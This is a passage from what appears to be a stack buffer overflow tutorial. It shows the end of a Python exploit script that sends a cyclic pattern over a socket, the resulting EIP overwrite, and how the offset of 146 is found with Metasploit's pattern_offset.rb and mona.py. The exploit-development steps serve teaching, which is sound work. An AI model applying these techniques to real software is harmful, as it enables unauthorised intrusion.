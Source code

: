 ```{.python .numberLines}
  "q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3"
  "As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au"
  "4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4A"
  "w5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5"
  "Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
  "6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6B"
  "c7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7"
  "Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg"
  "8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B")
buf += "\n"

s.send(buf)
```

---

\newpage

And sending 'er off:

```
% ./exploit.py
```

We get a somewhat different crash this time. Instead of `0x41414141` (`"AAAA"`)
being in `EIP`, we have `0x39654138` (`"9eA8"`).

![Different crashy crashy. `EIP` = `0x39654138`
("9eA8")](dostackbufferoverflowgood_images/immdbg_0x39654138.png)

\newpage

We have several options for finding out how far in our cyclic pattern the
sequence `"9eA8"` appears.

We can run Metasploit's `pattern_offset.rb` with an argument of either "9eA8"
or "39654138":

```
% ~/opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

This tells us that the four characters that overwrite the Saved Return Pointer
and end up in `EIP` are at offset 146 (i.e. from the 147th character onwards).

Alternatively, `mona.py` gives us a function called `"findmsp"` that will
search the memory of our process for all instances of the cyclic pattern and
will give us a bunch of info on each occurrence, will tell us if any registers
(e.g. `EIP`) contain a subset of the pattern, if any registers point to
somewhere in a copy of the pattern, and much much more.

`mona.py` commands are run via the command input at the bottom of Immunity
Debugger and are prefixed with `"!mona"`.

![`mona.py`'s `findmsp`](dostackbufferoverflowgood_images/immdbg_findmsp.png)
